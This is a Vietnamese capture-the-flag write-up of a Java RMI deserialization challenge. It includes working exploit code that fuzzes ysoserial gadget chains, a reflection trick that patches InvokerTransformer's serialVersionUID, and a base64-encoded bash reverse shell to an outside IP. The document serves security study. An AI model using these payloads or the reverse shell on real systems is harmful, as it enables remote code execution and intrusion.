


# [ACIS-2020-Quals] ascis_rmi_v2

- [[ACIS-2020-Quals] ascis_rmi_v2](#acis-2020-quals-ascis_rmi_v2)
- [Summary](#summary)
- [Description](#description)
- [Solution](#solution)
  - [Ysoserial](#ysoserial)
  - [Kiểm tra Class Path Qua GadgetProbe](#kiểm-tra-class-path-qua-gadgetprobe)
  - [Fuzz Ysoserial Payloads](#fuzz-ysoserial-payloads)
  - [Build Payload](#build-payload)
    - [Set value for static final field: serialVersionUID](#set-value-for-static-final-field-serialversionuid)
  - [Thảo luận thêm](#thảo-luận-thêm)
- [Credits](#credits)
- [References](#references)

Challenge này đã có một write-up hoàn chỉnh được anh [@thien](https://github.com/trungthiennguyen) public tại [đây](https://github.com/trungthiennguyen/CTF-Writeup/blob/main/ASCIS-2020-Quals/RMI-v2/README.md). Mình viết chủ yếu làm lại, take notes cho bản thân là chính.

(*Bài viết được viết tiếp từ [ascis_rmi_v1](../ascis_rmi_v1)*)
# Summary

Tận dụng deserialization của **RMI** để thực hiện **RCE**. Nhưng vì server đã modify giá trị `serialVersionUID` của class **InvokerTransformer**, nên đòi hỏi phải điều chỉnh lại payload để exploit.

# Description
- Source: [link](src/ascis_rmi_v2)



- Change log:


# Solution 

## Ysoserial

Do ở bài này không còn RCE gadget chain để khai thác nữa, đòi hỏi phải tìm 1 cách RCE khác. Ý tưởng là sẽ fuzz hết các payloads từ [ysoserial](https://github.com/frohoff/ysoserial). Ngoài ra, còn một cách tìm classpath thông minh hơn, tránh bỏ sót, kiểm tra các class tự xây dựng trên server mà mình chưa biết chẳng hạn, thì có thể sử dụng [GadgetProbe](https://github.com/BishopFox/GadgetProbe)(đọc thêm về cách hoạt động tại [blog](https://testbnull.medium.com/gadgetchain-gadgetprobe-blind-classpath-guessing-da053a575826) từ tác giả **Jang**, rất bổ ích!). Trong bài này, mình thấy không cần dùng đến **GadgetProbe**, nhưng thôi nhân tiện thì làm luôn để học.

## Kiểm tra Class Path Qua GadgetProbe

Cách tích hợp cũng đơn giản:

- Import GadgetProbe vào project (xem lại bài [ascis_rmi_v1](../ascis_rmi_v1))
- Tạo Object GadgetProbe, pass vào `ASCISInterf.login()` để kiểm tra.

```java
package rmi;

import java.lang.reflect.Field;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

import com.bishopfox.gadgetprobe.GadgetProbe;

public class ASCISPlayer {
    public ASCISPlayer() {
    }

    public static void main(String[] args) throws RemoteException, NotBoundException, NoSuchFieldException, IllegalAccessException {

        // Connect to RMI server
        String serverIP = "207.148.75.135";
        int serverPort = 13337;
        Registry registry = LocateRegistry.getRegistry(serverIP, serverPort);
        ASCISInterf ascisInterf = (ASCISInterf)registry.lookup("ascis");

        // Dùng GadgetProbe để kiểm tra classpath có tồn tại hay không, nếu có query DNS sẽ thành công, ngược lại thì không trả có gì trả về.
        GadgetProbe gp = new GadgetProbe("doublevkay.4beb6130928c416addc0.d.zhack.ca");
        Object obj = gp.getObject("org.apache.commons.collections.functors.InvokerTransformer");
        System.out.println(ascisInterf.login(obj));
    }
}
```


## Fuzz Ysoserial Payloads

- Fuzz toàn bộ payloads của Ysoserial
- Lúc này server sẽ trả về lỗi của từng loại payloads, mà điển hình là exception **ClassNotFoundException** - server không tồn tại classpath. (Vì ở bài này có trả về exceptions, nên cũng không bắt buộc dùng **GadgetProbe**)
- Lọc những payloads bị **ClassNotFoundException** sẽ thu về một danh sách payloads tiềm năng hơn.

```java
package rmi;

import java.lang.reflect.Field;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import ysoserial.payloads.*;


public class ASCISPlayer {
    public ASCISPlayer() {
    }
    public static void main(String[] args) throws RemoteException, NotBoundException, NoSuchFieldException, IllegalAccessException {

        // Connect to RMI server
        String serverIP = "207.148.75.135";
        int serverPort = 13337;
        Registry registry = LocateRegistry.getRegistry(serverIP, serverPort);
        ASCISInterf ascisInterf = (ASCISInterf)registry.lookup("ascis");

        // Set cmd, cmd ~= bash -i >& /dev/tcp/10.your.ip.address/4444 0>&1
         String cmd = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDMuOTIuMjguMTg3LzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}";

        String []ALL_GADGETS = {"BeanShell1", "Clojure", "FileUpload1", "Hibernate1", "Hibernate2", "Hibernate2",
                "C3P0","CommonsBeanutils1", "CommonsCollections1", "CommonsCollections2",
                "CommonsCollections3", "CommonsCollections4", "CommonsCollections5", "CommonsCollections6",
                "Groovy1", "JavassistWeld1", "JBossInterceptors1", "Jdk7u21", "JRMPClient", "JRMPListener", "JSON1", "Jython1",
                "MozillaRhino1", "MozillaRhino2", "Myfaces1", "Myfaces2",
                "ROME", "Spring1", "Spring2"};
        
        for (String payloadType:ALL_GADGETS){
//            System.out.println("Checking " + payloadType + " ...");
            try {
                // Use ysoserial generate payloads
                Class<? extends ObjectPayload> payloadClass = ObjectPayload.Utils.getPayloadClass(payloadType);
                ObjectPayload object = (ObjectPayload)payloadClass.newInstance();
                Object payload = object.getObject(cmd);

                // Pass to ASCISInterf.login()
                ascisInterf.login(payload);
            }
            catch (Exception e) {
                if (e.toString().indexOf("ClassNotFoundException") == -1){
                    System.out.println("[*] Potential payload: " + payloadType);
//                    e.printStackTrace();
                    System.out.println(e);
                }
            }
        }
    }
}
```



Nhìn vào đống logs sau filter sẽ thấy exception sau xuất hiện nhiều lần:

```
java.rmi.ServerException: RemoteException occurred in server thread; nested exception is: 
	java.rmi.UnmarshalException: error unmarshalling arguments; nested exception is: 
	java.io.InvalidClassException: org.apache.commons.collections.functors.InvokerTransformer; local class incompatible: stream classdesc serialVersionUID = -8653385846894047688, local class serialVersionUID = -1333713373713373737
```

Do đã được tác giả hint từ trước nên mình xác định luôn là `serialVersionUID` của class `InvokerTransformer` đã bị thay đổi giá trị. Mục đích của việc này có lẽ là để chống việc chỉ chạy ysoserial tool là có thể RCE. Vì vậy, để làm được cần phải hiểu cách build payload exploit. <br>

## Build Payload

Chúng ta có thể sử dụng lại cách build payload của ysoserial, nhưng phải sử dụng reflection để thay đổi giá trị `serialVersionUID` của class `InvokerTransformer` về `-1333713373713373737`. <br>

Mình hiện thực lại payload [CommonsCollections5](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java) bằng cách thêm đoạn code sau vào source của ysoserial. Tạo thành 1 payload mới **doublevkay_ModifiedCommonsCollections5**. (Source đầy đủ tại [đây](doublevkay_ModifiedCommonsCollections5.java)).

Có thể thấy gadget chain trong **CommonsCollections5** gọi **InvokerTransformer** đến 3 lần, nên ý tưởng sẽ là modify trường `serialVersionUID` của class này và giữ nguyên phần code build payload của **ysoserial**.

### Set value for static final field: serialVersionUID

Để set `serialVersionUID` của class `InvokerTransformer` thì cần phải dùng reflection lấy trường `serialVersionUID` lưu vào 1 đối tượng thuộc lớp `Field`, rồi sử dụng hàm `Field.set()` để set giá trị (tương tự cách set `logCommand` trong [ascis_rmi_v1](../ascis_rmi_v1/)). Tuy nhiên, bản thân mỗi trường trong một class cũng có những thuộc tính riêng như: private, public, static, final, ... nên bên trong class `Field` cũng có các trường khác để ghi nhớ những điều này. Ở đây chúng ta chú ý đến trường `Field.modifiers`.


Nói đơn giản thì `modifiers` dùng để xác định quyền chỉnh sửa giá trị của một Field, mà theo đó các trường `static final` sẽ được set mặc định là không được modify. Vì vậy, trước khi thực hiện đến bước set giá trị của trường `serialVersionUID` - đang là một đối tượng của class `Field`, cần phải set trường `modifiers` của lớp `Field` về acceptable :neutral_face:. Có thể tham khảo thêm [tại đây](https://stackoverflow.com/questions/3301635/change-private-static-final-field-using-java-reflection)

Hiện thực như sau:

```java
public class doublevkay_ModifiedCommonsCollections5 extends PayloadRunner implements ObjectPayload<BadAttributeValueExpException> {

    public BadAttributeValueExpException getObject(final String command) throws Exception {
        
        // Lấy trường serialVersionUID trong class InvokerTransformer
        Field serialVersionUID = InvokerTransformer.class.getDeclaredField("serialVersionUID");
        serialVersionUID.setAccessible(true);

        // Lấy trường modifiers trong class Field.
        Field modifiersSerialVersionUID = Field.class.getDeclaredField("modifiers");
        modifiersSerialVersionUID.setAccessible(true);

        // Set giá trị của trường modifiers bên trong class Field của đối tượng serialVersionUID về acceptable.
        
        modifiersSerialVersionUID.setInt(serialVersionUID, serialVersionUID.getModifiers() & ~Modifier.FINAL);

        // Set serialVersionUID của lớp InvokerTransformer về -1333713373713373737L
        serialVersionUID.set(InvokerTransformer.class,-1333713373713373737L);
        ...
    }
}

```

Như vậy ta đã có payload **doublevkay_ModifiedCommonsCollections5** tương tự như **CommonsCollections5** nhưng là phiên bản đặc biệt cho challenge này. Việc còn lại là tạo và gửi payload lên server.

```java
package rmi;

import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;


public class ASCISPlayer {
    public ASCISPlayer() {
    }
    public static void main(String[] args) throws RemoteException, NotBoundException, NoSuchFieldException, IllegalAccessException {

        // Connect to RMI server
        String serverIP = "207.148.75.135";
        int serverPort = 13337;
        Registry registry = LocateRegistry.getRegistry(serverIP, serverPort);
        ASCISInterf ascisInterf = (ASCISInterf)registry.lookup("ascis");

        String cmd = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDMuOTIuMjguMTg3LzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}";

        try {
            Object payload = new doublevkay_ModifiedCommonsCollections5().getObject(cmd);
            ascisInterf.login(payload);
        }
        catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```


Flag: `ASCIS{Oops_You_Pwn_RMI_@gain_with__some_tricks}`

## Thảo luận thêm

Trong phần [Fuzz Ysoserial Payloads](#fuzz-ysoserial-payloads), sau khi loại bớt rất nhiều payloads không hợp lệ thông qua **ClassNotFoundException**, thì vẫn còn một vài exception khác được quăng ra - bên cạnh `InvalidClassException InvokerTransformer`. Xem lại logs exception [tại đây](./log.txt). 

***Vậy giả sử không có hint từ tác giả, làm sao để biết chọn payload nào để đâm sâu hơn mà giải?***

Để ý, exception `InvalidClassException InvokerTransformer` xuất hiện nhiều lần nhất, và `serialVersionUID` của class `InvokerTransformer` cũng bị đổi, con số lại còn là `1333713373713373737L` (***1337***) - đây cũng là một gợi ý. Còn không thì ... cứ tìm hiểu và thử hết thôi chứ sao giờ =)).

***Các exception còn lại có ý nghĩa gì?***

Một số exception mình hiểu đôi chút là:
- `java.lang.IllegalArgumentException`: input command của mình chưa hợp lệ với loại payload này. Điển hình là với **FileUpload1** và **C3P0**.
- `java.lang.annotation.IncompleteAnnotationException: java.lang.Override missing element entrySet`: CommonCollections3 đã bị chặn từ JRE > 8u72. [Xem thêm](http://thegreycorner.com/2016/05/01/commoncollections-deserialization.html)

Những exception còn lại mình nghĩ cần phải tìm hiểu rõ hơn về cách từng Gadget Chain được xây dựng: các điều kiện, version, lib, ... Chung quy thì việc tìm hiểu hết bộ gadget chain của **Ysoserial** là cần thiết. Nhưng bao giờ xong thì chẳng rõ ... :running:

# Credits

Thanks anh **@peterjson** vì một challenge bổ ích, thanks anh **@thien** đã hỗ trợ em hoàn thành bài này!

# References

- https://mogwailabs.de/en/blog/2019/03/attacking-java-rmi-services-after-jep-290/
- https://testbnull.medium.com/gadgetchain-gadgetprobe-blind-classpath-guessing-da053a575826
- https://sec.vnpt.vn/2020/02/co-gi-ben-trong-cac-gadgetchain/
- https://sec.vnpt.vn/2020/02/the-art-of-deserialization-gadget-hunting-part-2/
- https://sec.vnpt.vn/2020/03/the-art-of-deserialization-gadget-hunting-part-3/
- https://github.com/frohoff/ysoserial
- http://thegreycorner.com/2016/05/01/commoncollections-deserialization.html